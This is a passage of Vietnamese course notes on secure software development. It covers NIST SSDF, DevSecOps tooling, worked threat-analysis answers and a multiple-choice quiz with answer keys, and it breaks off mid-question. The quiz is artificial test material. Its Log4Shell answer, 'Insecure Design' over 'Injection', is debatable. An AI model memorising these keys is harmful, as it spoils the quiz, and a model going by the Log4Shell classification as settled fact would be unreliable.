- Bảo mật và hardening build systems như production systems
- Training developer về secure coding

### PS – Protect the Software
- **Code signing**: Ký digital signature lên executable để đảm bảo integrity
- Dùng **Certificate Authority** đã được thiết lập để verify release integrity
- Chia sẻ **SBOM (Software Bill of Materials)** — danh sách đầy đủ các component

### PW – Produce Well-Secured Software
- Tái sử dụng **established, well-secured libraries** thay vì tự implement
- Thực hiện **clean builds** trong môi trường build được kiểm soát chặt chẽ
- Áp dụng **principle of least privilege** cho mọi component

### RV – Respond to Vulnerabilities
- Thiết lập **vulnerability disclosure program**
- Monitor **vulnerability databases** (NVD, CVE, vendor advisories)
- Có sẵn **security response playbook**
- Phân tích **root cause** và record vào wiki
- Deliver remediations có **automation**

---

## 11. DevOps & DevSecOps

### 11.1 DevOps là gì?

**DevOps** = Development + Operations — văn hóa làm việc kết hợp team phát triển và vận hành, tập trung vào:



**Lợi ích:**
- CI/CD: tự động hóa build, test, deploy
- Phát hiện và sửa lỗi nhanh hơn
- Rollback nhanh khi có vấn đề
- Monitoring liên tục

### 11.2 DevSecOps

DevSecOps = tích hợp Security vào toàn bộ DevOps pipeline:

```
CI (Continuous Integration) → build, SAST, unit test
CD (Continuous Delivery)    → deploy to staging, DAST, integration test  
CI (Continuous Inspection)  → ongoing security scanning, monitoring
```

**Gartner DevSecOps Toolchain:**

| Phase | Security Activities |
|---|---|
| Plan | Threat modeling, security training, technical debt tracking |
| Code | IDE security plugins, SAST |
| Build | SAST/SCA trong CI pipeline |
| Test | DAST, IAST, fuzzing, integration security test |
| Release | Software signing, provenance |
| Deploy | RASP, WAF, network monitoring |
| Operate | UEBA, SIEM, pen test, incident response |
| Monitor | Correlated vulnerability analysis, threat intel (STIX/TAXII) |

### 11.3 Continuous Inspection – Java Security Example

**SAST Tools:**
```
SpotBugs + Find Security Bugs → static analysis
PMD                           → code quality + security
SonarQube                     → comprehensive dashboard
```

**DAST Tools:**
```
OWASP ZAP → scan running web app
            → discover exposed endpoints
            → test OpenAPI/REST/WebSocket
            → intercept browser traffic
```

**Dependency Analysis:**
```
OWASP Dependency Check → map dependencies to CVE database
                       → CVSS score cho từng vulnerability
                       → tích hợp Maven/Jenkins/SonarQube
```

**Container Security:**
```
Anchore Engine → analyze Docker images
               → check OS packages, libs trong container
               → policy enforcement trước khi deploy
```

---

## Câu hỏi thảo luận & Trả lời

??? question "Câu 1: Kể 3 loại thông tin được xem là 'secret'. Nên lưu ở đâu và truy cập như thế nào?"

    **3 loại thông tin bí mật điển hình:**
    1. **Database credentials** (username/password kết nối DB)
    2. **API keys** (Google Maps API, payment gateway keys, AWS access keys)
    3. **Private keys / TLS certificates** (signing key, SSH private key)

    **Nên lưu ở đâu:**
    - **Secret Manager**: HashiCorp Vault, AWS Secrets Manager, GCP Secret Manager, Azure Key Vault
    - **Environment variables** (inject lúc runtime, không commit vào repo)
    - **.env file** với `.gitignore` (chỉ cho dev local, không production)
    - **Kubernetes Secrets** (kết hợp với encryption at rest)

    **Tuyệt đối KHÔNG:**
    - Hardcode trong source code
    - Commit vào git repo (kể cả private repo)
    - Để trong config file không mã hóa
    - Để trong environment variables của CI/CD mà không protected

    **Cách truy cập:**
    - Ứng dụng request secret từ Vault/Secret Manager lúc startup hoặc on-demand
    - Dùng **short-lived tokens** (TTL ngắn, rotate tự động)
    - **Least privilege**: service chỉ đọc được secret của mình, không phải toàn bộ

??? question "Câu 2: Giả sử có app mobile banking – kể 2 threats, đánh giá mức độ và đề xuất biện pháp"

    **Threat 1: Man-in-the-Middle (MitM) Attack**
    - **Mô tả**: Attacker chặn traffic giữa app và server (ví dụ: WiFi công cộng, rogue AP)
    - **Khả năng xảy ra**: **Trung bình** (cần attacker ở cùng mạng hoặc có kỹ thuật ARP spoofing)
    - **Thiệt hại**: **Cao** (lộ session token, credentials, số dư tài khoản, intercept giao dịch)
    - **Biện pháp**:
        - Enforce TLS 1.3, disable TLS 1.0/1.1
        - **Certificate Pinning**: app chỉ chấp nhận cert cụ thể, không tin hệ thống root CA
        - **HSTS** (HTTP Strict Transport Security)
        - Cảnh báo user khi dùng WiFi không an toàn

    **Threat 2: Credential Stuffing / Brute Force Login**
    - **Mô tả**: Attacker dùng list username/password bị rò rỉ từ breach khác để thử đăng nhập hàng loạt
    - **Khả năng xảy ra**: **Cao** (data breach xảy ra thường xuyên, nhiều người reuse password)
    - **Thiệt hại**: **Cao** (chiếm quyền tài khoản, chuyển tiền, lộ thông tin tài chính)
    - **Biện pháp**:
        - **Rate limiting** + **CAPTCHA** sau N lần thất bại
        - **MFA bắt buộc** (OTP, biometric)
        - **Account lockout** với notification đến email/SMS
        - Kiểm tra password với **HaveIBeenPwned** database khi đăng ký
        - **Anomaly detection**: đăng nhập từ IP/thiết bị lạ → require re-auth

---

## Câu hỏi trắc nghiệm

**Câu 1.** CIA Triad trong bảo mật thông tin bao gồm những thuộc tính nào?

- A. Confidentiality, Integrity, Authentication
- B. Confidentiality, Integrity, Availability
- C. Confidentiality, Identity, Authorization
- D. Control, Integrity, Availability

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    CIA = Confidentiality (Bảo mật) + Integrity (Toàn vẹn) + Availability (Sẵn sàng). Đây là bộ ba nguyên tắc nền tảng của mọi hệ thống bảo mật. Authentication là cơ chế, không phải thuộc tính CIA.

---

**Câu 2.** Nguyên tắc "Shifting Left" trong SSDLC có nghĩa là gì?

- A. Chuyển toàn bộ security testing sang team DevOps
- B. Đưa security vào giai đoạn cuối của SDLC để kiểm tra tổng thể
- C. Tích hợp security càng sớm càng tốt trong vòng đời phát triển
- D. Giảm số lượng security requirements để tăng tốc độ phát triển

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    Shifting Left = đẩy security activities sang trái (sớm hơn) trong timeline SDLC. Lý do: chi phí sửa lỗi tăng theo cấp số nhân khi phát hiện muộn hơn ($10 ở Requirements vs $10,000+ ở Testing).

---

**Câu 3.** Sự khác biệt cơ bản giữa Design Flaw và Security Bug là gì?

- A. Design Flaw do hacker tạo ra, Security Bug do developer gây ra
- B. Design Flaw là lỗi kiến trúc/logic cho phép hành động không được phép; Security Bug là lỗi implementation cho phép dùng app độc hại
- C. Design Flaw nghiêm trọng hơn Security Bug về mọi mặt
- D. Security Bug chỉ xảy ra ở backend, Design Flaw chỉ ở frontend

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Design Flaw: sai từ thiết kế → user làm được điều vốn không được phép (logic flaw). Security Bug: sai trong code → user dùng app theo cách ngoài ý muốn (implementation bug). Design Flaw thường khó sửa hơn vì cần redesign.

---

**Câu 4.** STRIDE là phương pháp threat modeling, trong đó chữ "T" đại diện cho mối đe dọa nào?

- A. Trust Violation
- B. Tampering
- C. Token Theft
- D. Threat Escalation

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    STRIDE = Spoofing, **Tampering**, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege. Tampering là mối đe dọa liên quan đến việc sửa đổi dữ liệu trái phép, vi phạm thuộc tính Integrity.

---

**Câu 5.** CVE-2021-44228 (Log4Shell) là ví dụ điển hình của loại lỗ hổng nào trong OWASP Top 10 2021?

- A. Broken Access Control
- B. Cryptographic Failures
- C. Insecure Design
- D. Injection

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    Log4Shell là ví dụ của **Insecure Design** (A04:2021) — tính năng JNDI lookup trong log message là thiết kế nguy hiểm về bản chất, không phải lỗi implementation đơn thuần. Tuy nhiên về mặt kỹ thuật nó cũng là dạng Injection. Trong ngữ cảnh bài học, giảng viên dùng nó để minh họa Insecure Design.

---

**Câu 6.** Phương pháp DREAD được dùng để làm gì trong threat modeling?

- A. Mô tả kiến trúc hệ thống
- B. Xác định các tài sản cần bảo vệ
- C. Đánh giá và cho điểm mức độ nghiêm trọng của threats
- D. Tạo Data Flow Diagram

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    DREAD = Damage, Reproducibility, Exploitability, Affected users, Discoverability. Đây là framework **scoring** — chấm điểm từng threat để ưu tiên giải quyết, không phải để phát hiện hay mô tả threats.

---

**Câu 7.** "Parameterized queries" được dùng để phòng chống loại tấn công nào?

- A. Cross-Site Scripting (XSS)
- B. SQL Injection
- C. Cross-Site Request Forgery (CSRF)
- D. Path Traversal

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Parameterized queries (prepared statements) tách biệt SQL code và data, khiến input của user không thể được interpret như SQL command. Đây là biện pháp chính để chống SQL Injection (CWE-89).

---

**Câu 8.** Trong input validation flowchart, khi user input được dùng để render ra màn hình, bước bắt buộc phải thực hiện là gì?

- A. Mã hóa input bằng AES
- B. Output encoding trước khi render
- C. Hash input bằng SHA-256
- D. Lưu input vào DB trước

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Output encoding** (HTML encoding, JS encoding...) là biện pháp chống XSS. Khi render user-supplied data ra UI, phải encode các ký tự đặc biệt (`<`, `>`, `"`, `&`...) thành HTML entities, ngăn browser interpret chúng như code.

---

**Câu 9.** `java.util.Random` không nên dùng cho mục đích security-sensitive vì lý do gì?

- A. Nó quá chậm so với SecureRandom
- B. Nó không có sẵn trong mọi JVM version
- C. Output của nó có thể được dự đoán (predictable)
- D. Nó không hỗ trợ seed

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    `java.util.Random` dùng linear congruential generator — thuật toán deterministic, output có thể predict nếu biết seed hoặc một số giá trị trước. `java.security.SecureRandom` dùng CSPRNG lấy entropy từ OS, không thể predict.

---

**Câu 10.** SAST khác DAST ở điểm cơ bản nào?

- A. SAST chỉ test security, DAST test cả performance
- B. SAST phân tích code không chạy, DAST test ứng dụng đang runtime
- C. SAST do external team thực hiện, DAST do internal team
- D. SAST dùng cho web app, DAST cho mobile app

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **SAST** (Static) = phân tích source code/binary mà không cần execute — phát hiện sớm trong SDLC. **DAST** (Dynamic) = tấn công vào app đang chạy — tìm được runtime issues mà SAST không thấy (config errors, auth logic, session handling...).

---

**Câu 11.** Defense in Depth là gì?

- A. Chỉ dùng firewall mạnh nhất để bảo vệ hệ thống
- B. Triển khai nhiều lớp bảo mật độc lập để nếu một lớp thất bại, các lớp khác vẫn bảo vệ
- C. Mã hóa tất cả dữ liệu với nhiều thuật toán khác nhau
- D. Backup dữ liệu theo nhiều chiều

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Defense in Depth = "phòng thủ theo chiều sâu" — nhiều lớp bảo vệ xếp chồng lên nhau (WAF → Security Testing → Secure Coding Practices → DB encryption...). Attacker phải phá vỡ tất cả, không chỉ một lớp.

---

**Câu 12.** Nguyên tắc "Least Privilege" trong Secure Design có nghĩa là gì?

- A. Người dùng phải có ít nhất một quyền để sử dụng hệ thống
- B. Mọi account/service chỉ được cấp đúng quyền tối thiểu cần thiết để thực hiện công việc
- C. Admin có ít quyền hơn user thông thường
- D. Không ai được phép có quyền admin

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Least Privilege (CWE-276 khi vi phạm) = chỉ cấp quyền tối thiểu cần thiết. Nếu service A chỉ cần đọc DB table X, đừng cấp quyền write toàn bộ DB. Ngăn lateral movement khi một component bị compromise.

---

**Câu 13.** CSRF token hoạt động như thế nào để phòng tránh CSRF attack?

- A. Mã hóa toàn bộ request
- B. Server tạo token ngẫu nhiên nhúng vào form, verify khi nhận request — site khác không biết token này
- C. Token xác thực danh tính user
- D. Token là session ID được hash

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    CSRF token là giá trị ngẫu nhiên, unpredictable, gắn với session. Server nhúng token vào form (hidden field). Khi submit, server verify token. Attacker từ site khác không thể đọc token (Same-Origin Policy) nên không thể forge request hợp lệ.

---

**Câu 14.** SSRF (Server-Side Request Forgery) nguy hiểm vì điều gì?

- A. Tấn công trực tiếp vào database của server
- B. App thực hiện request đến internal resource với quyền của server, bypass firewall
- C. Inject script vào response của server
- D. Giả mạo identity của server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    SSRF: attacker khiến server gửi request đến internal network (metadata endpoints, internal APIs, cloud instance metadata...) — những nơi attacker không thể truy cập trực tiếp. Server request đi với quyền của server, không bị firewall chặn như request từ internet.

---

**Câu 15.** Insecure Deserialization có thể dẫn đến hậu quả nghiêm trọng nhất là gì?

- A. SQL Injection
- B. Remote Code Execution (RCE)
- C. Session Hijacking
- D. XSS

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Insecure Deserialization (CWE-502, OWASP A08:2021) có thể dẫn đến **RCE** — attacker kiểm soát object được deserialize, có thể inject gadget chains để thực thi code tùy ý. Đây là lý do nó xếp top OWASP.

---

**Câu 16.** Race condition là gì và TOCTOU là dạng cụ thể nào?

- A. Lỗi mã hóa xảy ra đồng thời; TOCTOU là lỗi timeout
- B. Lỗi đồng bộ hóa khi nhiều thread dùng shared resource; TOCTOU là Time-of-Check to Time-of-Use
- C. Điều kiện chạy đua trong mạng; TOCTOU là giao thức TCP
- D. Lỗi timing trong crypto; TOCTOU là loại timing attack

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Race condition** = shared resource được access đồng thời không có synchronization. **TOCTOU** = kiểm tra điều kiện (Time of Check) và sử dụng (Time of Use) bị tách biệt — attacker thay đổi state ở giữa hai thời điểm này. Ví dụ: check file permission rồi read file, nhưng file bị replace ở giữa.

---

**Câu 17.** OWASP Dependency Check làm gì trong CI/CD pipeline?

- A. Kiểm tra code style của developer
- B. So sánh các thư viện third-party trong project với cơ sở dữ liệu CVE đã biết
- C. Scan network traffic của ứng dụng
- D. Kiểm tra certificate của HTTPS endpoints

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    OWASP Dependency Check = **SCA (Software Composition Analysis)** tool. Nó map tất cả dependencies (JAR, npm packages...) với NVD/CVE database, báo cáo CVSS score cho từng vulnerability. Tích hợp được với Maven, Gradle, Jenkins, SonarQube.

---

**Câu 18.** Trong DevSecOps, "Continuous Inspection" khác với "Continuous Integration" như thế nào?

- A. Continuous Inspection chạy sau khi deploy production
- B. Continuous Inspection tập trung vào security scanning liên tục (SAST, DAST, SCA) xuyên suốt pipeline
- C. Continuous Inspection chỉ do security team thực hiện, không tự động
- D. Chúng là cùng một khái niệm

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **CI (Continuous Integration)** = tự động build + test khi có commit. **Continuous Inspection** = liên tục scan security (SAST trong build, DAST trong staging, SCA cho dependencies, container scanning...) — đây là security layer bổ sung vào CI/CD pipeline.

---

**Câu 19.** SonarQube hỗ trợ điều gì trong quá trình phát triển phần mềm?

- A. Tự động deploy ứng dụng lên production
- B. Phân tích code tĩnh để phát hiện bugs, lỗ hổng bảo mật và "code smell"
- C. Quản lý project và assign task cho developer
- D. Tự động generate unit test

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    SonarQube = platform SAST hỗ trợ 27+ ngôn ngữ, phát hiện: security vulnerabilities (taint analysis, injection...), bugs, code smells, duplications. Tích hợp với CI/CD làm "Quality Gate" — block merge/deploy khi có critical issues.

---

**Câu 20.** OWASP SAMM là gì?

- A. Công cụ scan lỗ hổng tự động
- B. Framework đánh giá maturity của chương trình bảo mật phần mềm trong tổ chức
- C. Danh sách top 10 lỗ hổng web application
- D. Chuẩn mã hóa cho ứng dụng web

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **SAMM = Software Assurance Maturity Model** — framework mở của OWASP giúp tổ chức đánh giá hiện trạng security (maturity level 1-3), lập kế hoạch cải thiện, và đo lường tiến độ theo 5 business function: Governance, Design, Implementation, Verification, Operations.

---

**Câu 21.** Threagile khác với Microsoft Threat Modeling Tool ở điểm nào nổi bật?

- A. Threagile chỉ hỗ trợ Windows
- B. Threagile mô hình hóa bằng file YAML, tích hợp DevSecOps, sinh report tự động
- C. Microsoft Threat Modeling Tool miễn phí hơn
- D. Threagile chỉ dùng cho microservices

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Threagile = agile threat modeling: khai báo architecture bằng **YAML** trong IDE, chạy rule engine để phân tích, tự động sinh **PDF report** với risks và mitigations. Phù hợp DevSecOps (code-as-config). Microsoft TM Tool dùng GUI drag-drop DFD, ít automation hơn.

---

**Câu 22.** "Never Trust, Always Verify" (Zero Trust) trong Secure Design áp dụng như thế nào?

- A. Không tin tưởng bất kỳ vendor bên ngoài nào
- B. Mọi request đều phải được authenticate và authorize, kể cả từ internal network
- C. Không sử dụng bất kỳ third-party library nào
- D. Không tin tưởng kết quả của SAST tools

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Zero Trust = không có "trusted perimeter". Mọi request, dù từ internal network, service khác trong cùng VPC, hay internal user — đều phải authenticate và authorize. Prevent lateral movement khi attacker đã vào được internal network.

---

**Câu 23.** Tại sao production data không nên dùng trong môi trường development/testing?

- A. Dữ liệu production quá lớn, làm chậm môi trường dev
- B. Vi phạm privacy (PII exposure), rủi ro lộ dữ liệu thật nếu môi trường dev kém bảo mật
- C. Data format khác nhau giữa các môi trường
- D. License không cho phép dùng production data ở nơi khác

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Dev/test environments thường có bảo mật kém hơn production (nhiều người có access, log đầy đủ hơn, ít monitoring hơn). Nếu dùng production data → vi phạm privacy, rủi ro lộ PII. Giải pháp: dùng data **anonymized/masked** (thay real values bằng synthetic data giữ nguyên format).

---

**Câu 24.** CWE-416 "Use After Free" là lỗi phổ biến trong ngôn ngữ nào và gây ra vấn đề gì?

- A. Python — gây memory leak
- B. Java — gây NullPointerException
- C. C/C++ — dùng pointer sau khi đã free() bộ nhớ, có thể gây RCE
- D. JavaScript — gây prototype pollution

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    Use After Free (CWE-416) = sau khi `free(ptr)`, nếu ptr vẫn được dùng → undefined behavior. Attacker có thể kiểm soát vùng nhớ đó (heap grooming) và execute arbitrary code. Đây là lỗi #7 trong CWE Top 25 2022, chủ yếu trong C/C++.

---

**Câu 25.** NIST SSDF (SP 800-218) bao gồm mấy nhóm practice chính?

- A. 3
- B. 4
- C. 5
- D. 7

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    SSDF gồm **4 nhóm**: PO (Prepare the Organization – 5 practices), PS (Protect the Software – 3 practices), PW (Produce Well-Secured Software – 9 practices), RV (Respond to Vulnerabilities – 3 practices).

---

**Câu 26.** Trong SSDF, SBOM (Software Bill of Materials) thuộc nhóm practice nào?

- A. PO – Prepare the Organization
- B. PS – Protect the Software
- C. PW – Produce Well-Secured Software
- D. RV – Respond to Vulnerabilities

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    SBOM thuộc **PS (Protect the Software)** — cụ thể là PS 3.2 "Share provenance data". SBOM là danh sách tất cả components/dependencies trong phần mềm, giúp nhanh chóng xác định impact khi có CVE mới.

---

**Câu 27.** Phương pháp PASTA khác STRIDE ở điểm nào cơ bản?

- A. PASTA chỉ dùng cho web application
- B. PASTA tập trung vào business risk và attack simulation; STRIDE tập trung vào threat categories kỹ thuật
- C. PASTA ít bước hơn STRIDE
- D. STRIDE do OWASP phát triển, PASTA do Microsoft

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **STRIDE**: phân loại threats theo 6 categories kỹ thuật (Spoofing, Tampering...) — engineer-centric. **PASTA**: 7-bước process bắt đầu từ business objectives, mô phỏng attack scenarios, gắn với business impact — business + security hybrid approach.

---

**Câu 28.** Anchore Engine trong DevSecOps pipeline có chức năng gì?

- A. Scan source code tìm security vulnerabilities
- B. Phân tích Docker container images để tìm vulnerabilities và enforce policy
- C. Monitor runtime behavior của containers
- D. Tự động patch vulnerabilities trong containers

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Anchore Engine** = container image security scanner. Phân tích nội dung image (OS packages, libraries, files), map với CVE database, enforce custom policies (ví dụ: block deploy nếu có Critical CVE). Tích hợp với Kubernetes, Jenkins, Docker Swarm.

---

**Câu 29.** Lý do cần disable các HTTP methods không sử dụng là gì?

- A. Tăng performance của web server
- B. Giảm attack surface — các method như PUT, DELETE, TRACE có thể bị khai thác
- C. Giảm log size của server
- D. Tuân thủ RESTful API standards

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Ví dụ: **TRACE** method có thể bị dùng cho XST (Cross-Site Tracing) để steal cookies. **PUT** có thể cho phép upload file nếu không config đúng. Nguyên tắc: chỉ enable những gì cần thiết (Least Privilege áp dụng cho cả HTTP methods).

---

**Câu 30.** "Security through obscurity" là gì và tại sao không đủ để bảo mật?

- A. Mã hóa code bằng obfuscation — đủ nếu thuật toán đủ phức tạp
- B. Giữ bí mật implementation để tránh bị tấn công — không đủ vì attacker vẫn có thể reverse engineer
- C. Dùng port không phổ biến thay vì 443/80 — hoàn toàn hiệu quả
- D. Không công bố API documentation — biện pháp bảo mật tốt nhất

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Security through obscurity = chỉ dựa vào việc giấu cơ chế hoạt động để bảo mật. Không đủ vì: attacker có thể decompile, reverse engineer, network sniff. Bảo mật thật sự phải tốt ngay cả khi attacker biết toàn bộ design (Kerckhoffs's principle).

---

**Câu 31.** CWE Top 25 là gì và ai duy trì?

- A. OWASP duy trì, top 25 lỗ hổng web application phổ biến nhất
- B. MITRE duy trì, top 25 software weakness phổ biến và nguy hiểm nhất
- C. NIST duy trì, 25 CVE có CVSS score cao nhất
- D. SANS Institute, 25 attack technique phổ biến nhất

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **CWE (Common Weakness Enumeration)** do **MITRE** quản lý. CWE Top 25 được tính dựa trên tần suất xuất hiện trong CVE records và CVSS severity score. Khác với OWASP Top 10 (chỉ web app), CWE Top 25 bao gồm mọi loại software.

---

**Câu 32.** Session fixation attack là gì và cách phòng tránh?

- A. Attacker đoán session ID; phòng tránh bằng cách dùng ID dài hơn
- B. Attacker ép victim dùng session ID do attacker chọn; phòng tránh bằng regenerate session ID sau login
- C. Attacker steal session cookie; phòng tránh bằng HTTPS
- D. Attacker tạo nhiều session đồng thời; phòng tránh bằng rate limiting

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Session Fixation**: attacker set session ID cho victim (qua URL, cookie injection...). Khi victim login với session ID đó, attacker đã biết ID → hijack session. **Phòng tránh**: **regenerate session ID** mới hoàn toàn sau mỗi lần authenticate thành công.

---

**Câu 33.** Trong quy trình threat modeling, sau khi xác định được threats, bước tiếp theo là gì?

- A. Viết code để fix ngay lập tức
- B. Đánh giá khả năng xảy ra và mức độ ảnh hưởng, sau đó ưu tiên và lập kế hoạch giảm thiểu
- C. Báo cáo cho management và đợi quyết định
- D. Publish danh sách threats lên public để cộng đồng giúp fix

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Sau khi identify threats: **Rate** (đánh giá Cao/Trung/Thấp) → tạo danh sách risks có priority → **lập kế hoạch**: mitigate (sửa), document (chấp nhận rủi ro có ghi chép), transfer (mua bảo hiểm), accept (với risks thấp). Không phải fix ngay mù quáng.

---

**Câu 34.** Công cụ nào sau đây là DAST tool?

- A. SonarQube
- B. SpotBugs
- C. OWASP ZAP
- D. Bandit

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    **OWASP ZAP** (Zed Attack Proxy) = DAST tool — scan ứng dụng web đang chạy: intercept proxy, active scanner, spider, fuzzer. SonarQube, SpotBugs, Bandit đều là SAST tools (phân tích static code).

---

**Câu 35.** Tại sao không nên tự implement hệ thống authentication từ đầu?

- A. Vì các framework authentication đã được patent
- B. Vì authentication tự implement thường có nhiều edge cases security chưa được test kỹ, dễ có lỗ hổng nghiêm trọng
- C. Vì authentication library quá phức tạp, developer không thể hiểu
- D. Vì license các thư viện authentication đắt hơn

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Authentication implementation đúng cực kỳ khó: timing attacks, password hashing, session management, MFA, account lockout... Các giải pháp established (OAuth, Keycloak, Auth0...) đã được peer-reviewed, audited, battle-tested bởi hàng triệu users. "Don't roll your own crypto/auth."

---

**Câu 36.** MobSF (Mobile Security Framework) chuyên dùng để làm gì?

- A. Scan vulnerabilities trong network của mobile device
- B. Static và dynamic analysis cho Android APK và iOS IPA
- C. Monitor mobile app performance
- D. Quản lý certificates cho mobile apps

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **MobSF** = automated mobile security testing framework. Upload APK/IPA → tự động phân tích: permissions, hardcoded secrets, insecure APIs, code analysis, binary analysis. Hỗ trợ cả static và dynamic analysis.

---

**Câu 37.** Trong DevSecOps Gartner Model, RASP là gì và hoạt động ở giai đoạn nào?

- A. Remote Application Security Protocol — giai đoạn Planning
- B. Runtime Application Self-Protection — giai đoạn Deploy/Operate, bảo vệ app trong runtime
- C. Rapid Application Scanning Platform — giai đoạn Testing
- D. Risk Assessment Security Policy — giai đoạn Requirements

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **RASP** = Runtime Application Self-Protection — security agent nhúng vào bên trong application, monitor và block attacks trong real-time (SQL injection, XSS, deserialization attacks...) mà không cần thay đổi code. Hoạt động ở giai đoạn Deploy và Operate.

---

**Câu 38.** False positive rate cao trong SAST tool gây ra vấn đề gì?

- A. Bỏ sót nhiều lỗ hổng thật
- B. "Alert fatigue" — developer bắt đầu ignore alerts, có thể bỏ qua lỗ hổng thật
- C. Làm chậm build pipeline đáng kể
- D. Tốn quá nhiều storage cho logs

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **False positive** = báo lỗi nhưng thực tế không có lỗ hổng. Nếu FP rate cao, developer sẽ mất tin tưởng vào tool và bắt đầu dismiss alerts mà không review kỹ — cuối cùng bỏ qua cả true positive (lỗ hổng thật). "Cry wolf" effect.

---

**Câu 39.** Trong CI/CD pipeline, "Quality Gate" của SonarQube hoạt động như thế nào?

- A. Tự động sửa code khi phát hiện lỗi
- B. Block merge/deploy nếu code không đạt threshold đã định (ví dụ: không có Critical security issue)
- C. Gửi email cho developer khi có lỗi
- D. Tự động tạo ticket Jira cho mọi issue

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **Quality Gate** = tập điều kiện pass/fail. Ví dụ: "No new Critical/Blocker issues", "Code coverage > 80%", "No new security vulnerabilities". Nếu fail → pipeline stop, không được merge/deploy. Enforce minimum security standard tự động.

---

**Câu 40.** OCTAVE khác các phương pháp threat modeling khác ở điểm nào?

- A. Chỉ dùng cho hệ thống military
- B. Xuất phát từ góc độ tổ chức/business — xác định assets quan trọng, threats ảnh hưởng đến operational objectives
- C. Tự động hoàn toàn, không cần human input
- D. Chỉ phân tích network threats

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    **OCTAVE** (CMU/SEI) = organization-centric — bắt đầu từ organizational assets và business objectives, không phải từ technical components. Phù hợp cho enterprises cần align security với business risk tolerance. Khác STRIDE (technical categories) hay PASTA (7-step business+technical).

---

**Câu 41.** Tại sao cần re-authentication khi thực hiện giao dịch quan trọng trong mobile banking?

- A. Để tăng thời gian xử lý, tránh double-spending
- B. Phòng tránh CSRF và session hijacking — verify user thực sự đang thực hiện giao dịch, không phải attacker dùng session đã chiếm
- C. Để log thêm thông tin cho audit
- D. Yêu cầu của ngân hàng trung ương

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Re-authentication (thường là OTP, biometric, PIN) cho critical transactions xác nhận **liveness** và **intent** của user tại thời điểm đó. Ngăn CSRF (session của user bị abuse bởi request từ site khác) và limit blast radius nếu session bị hijack.

---

**Câu 42.** Lỗ hổng "Insecure Design" (A04:2021) là mới trong OWASP 2021. Điều này phản ánh vấn đề gì của ngành?

- A. Ngành đã giải quyết xong tất cả lỗi implementation
- B. Nhiều lỗ hổng nghiêm trọng bắt nguồn từ thiết kế sai về mặt security, không chỉ code bugs
- C. OWASP cần thêm category để đủ 10
- D. Các tools SAST đã phát hiện được hết implementation bugs

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    A04:2021 Insecure Design xuất hiện phản ánh nhận thức rằng **bảo mật phải được tích hợp vào thiết kế**, không chỉ "scan code cuối vòng đời". Log4Shell, insecure default configs, missing rate limiting... là design flaws, không thể fix bằng code patch đơn giản.

---

**Câu 43.** Trong Secure Code training, tại sao nên dùng case studies/ví dụ code có lỗ hổng thay vì chỉ liệt kê rules?

- A. Rules viết quá phức tạp, developer không đọc được
- B. Ví dụ thực tế giúp developer hiểu context, impact, và nhớ lâu hơn các rule trừu tượng
- C. OWASP yêu cầu phải dùng case studies
- D. Rules không cover được mọi trường hợp

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Học qua ví dụ cụ thể (vulnerable code + fixed code + impact) hiệu quả hơn memorize rules vì: **context** giúp hiểu *tại sao* rule tồn tại, **impact** tạo motivation, **pattern recognition** giúp developer tự phát hiện tương tự trong code của mình.

---

**Câu 44.** Tại sao khi chọn framework, nên ưu tiên "phiên bản mới nhất hoặc mới-thứ-hai"?

- A. Phiên bản mới luôn có nhiều tính năng nhất
- B. Cân bằng giữa có security patches mới nhất và stability — phiên bản quá mới có thể chưa ổn định
- C. License của phiên bản cũ hơn đắt hơn
- D. Community support chỉ có cho 2 phiên bản mới nhất

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    Phiên bản mới nhất: security patches đầy đủ nhưng có thể còn bugs mới. Phiên bản mới-thứ-hai (N-1): stable hơn, vẫn còn trong LTS support, vẫn nhận security patches. Tránh phiên bản EOL (End of Life) vì không còn nhận security patches.

---

**Câu 45.** Output encoding khác với input validation như thế nào?

- A. Output encoding diễn ra phía client, input validation phía server
- B. Input validation kiểm tra/từ chối input không hợp lệ; output encoding transform data khi render để browser không interpret là code
